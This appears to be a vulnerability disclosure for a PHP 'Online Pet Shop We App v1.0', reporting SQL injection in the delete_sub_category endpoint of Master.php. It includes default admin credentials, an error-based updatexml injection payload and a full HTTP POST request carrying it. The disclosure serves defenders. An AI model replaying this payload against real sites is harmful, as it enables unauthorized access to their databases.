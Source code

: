 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Lime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/classes/Master.php?f=delete_sub_category,id

Vulnerability location: /pet_shop/classes/Master.php?f=delete_sub_category,id

dbname=pet_shop_db,length=11

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /pet_shop/classes/Master.php?f=delete_sub_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/185292956-00334814-1310-47f8-945c-bf3d1437bea0.png)
